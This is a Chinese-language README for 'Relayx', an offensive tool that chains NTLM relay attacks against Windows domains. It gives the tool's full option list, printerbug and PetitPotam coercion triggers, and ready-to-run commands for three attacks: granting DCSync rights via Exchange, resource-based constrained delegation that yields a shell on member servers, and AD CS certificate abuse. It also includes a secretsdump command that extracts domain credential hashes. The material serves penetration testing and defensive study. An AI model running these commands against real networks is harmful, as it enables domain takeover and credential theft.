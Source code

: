 # Relayx
## 声明
**一切开发旨在学习，请勿用于非法用途**

## Usage
将几个比较好用的relay集成到了一起，提高测试效率。
```
DCpwn with ntlmrelay

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)

optional arguments:
  -h, --help            show this help message and exit
  -r CALLBACK_IP, --callback-ip CALLBACK_IP
                        Attacker callback IP
  --timeout TIMEOUT     timeout in seconds
  --debug               Enable debug output
  -ts                   Adds timestamp to every logging output
  --smb-port [destination port]
                        Destination port to connect to SMB Server

authentication:
  -hashes LMHASH:NTHASH
                        Hash for account auth (instead of password)

connection:
  -dc-ip ip address     IP address of the Domain Controller
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it

attack:
  -m {rbcd,pki}, --method {rbcd,pki}
                        Set up attack method, rbcd or pki
  -t {printer,efs}, --trigger {printer,efs}
                        Set up trigger method, printer or petitpotam
  --impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  --add-computer [COMPUTERNAME]
                        Attempt to add a new computer account
  -pipe {efsr,lsarpc,samr,netlogon,lsass}
                        Named pipe to use (default: lsarpc)
  --template TEMPLATE   AD CS template. If you are attacking Domain Controller or other windows server machine, default value should be suitable.
  -ssl                  This is useful when AD CS use ssl.

execute:
  -share SHARE          share where the output will be grabbed from (default ADMIN$)
  -shell-type {cmd,powershell}
                        choose a command processor for the semi-interactive shell
  -codec CODEC          Sets encoding used (codec) from the target's output (default "GBK").
```
## 认证触发
工具中包含了两种触发机器回连的操作。
printerbug 和 PetitPotam。 触发可通过指定参数来实现，默认使用printerbug
```
-t printer  # 使用 打印机bug  触发
-t efs      # 使用 MS-EFSRPC 触发
```

## 攻击场景
### 一、攻击Exchange服务器
默认Exchange的服务权限较高，所以工具会利用Exchange的权限将当前用户增加Dcsync权限。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.201 -r 10.211.55.2 -dc-ip 10.211.55.200
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171035.png)

>目标的方式可以使用impacket的方式来写，@后跟目标即可，-r 是回连IP，也就是我们的攻击IP，-dc-ip 指定要去认证或者请求的DC ip, 后面一样，就不再重复。

攻击之后，当前用户可进行dcsync：
```
secretsdump.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.200 -just-dc-user cgdomain\\exchange$
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171339.png)

使用aclpwn可进行还原(这里需要exchange服务器的机器账号hash):
```
aclpwn -r aclpwn-xxxxx-xxxxx.restore
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171452.png)


### 二、攻击域成员机器
攻击普通服务器会自动使用RBCD（基于资源的约束委派）来攻击，所以这里需要域级别>= Server2012R2。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.203
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728172026.png)

攻击成功后，会自动获取一个交互式shell，并会生成一个ccache文件供以后使用，这里默认会模拟`administrator`的身份，如果不存在administrator，可通过`--impersonate` 来指定目标用户。

>这里默认会添加一个新的计算机账号，可通过--add-computer 来指定机器名，不指定则为随机名。

### 三、攻击AD CS
这里要求目标环境安装了`AD CS`。攻击AD CS 可以通过`-m pki` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m pki
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173221.png)

这里会向CS申请一个机器账号的证书，之后通过Rubues进行后续攻击即可。

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173445.png)